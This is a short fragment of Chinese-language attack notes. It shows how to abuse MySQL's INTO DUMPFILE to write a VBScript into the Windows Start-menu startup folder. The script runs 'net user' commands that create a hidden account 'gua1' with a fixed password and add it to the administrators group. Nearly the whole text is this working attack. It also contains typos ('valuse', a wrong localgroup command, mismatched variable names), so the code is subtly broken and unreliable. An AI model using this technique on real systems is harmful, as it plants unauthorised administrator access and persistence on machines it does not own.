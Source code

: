   * ```bash
    create table gua(cmd text);
    insert into gua values("set wshshell=createobject(""wscript.shell"")");
    insert into gua values("a=wshell.run(""cmd.exe /c net user gua1 1qaz@WSX /add"",0)");
    insert into gua valuse("b=wshell.run(""cmd.exe /c net user localgroup administrators gua1 /add"",0)");
    ```

    ​![image](assets/image-20241028201949-igyda2z.png)![image](assets/image-20241028202013-9tqarcp.png)​

    输出表为一个vbs的脚本文件

    ```bash
    SELECT * from gua into dumpfile "C:\Document and Settings\Administrator\「开始」菜单\1.vbs"
    ```
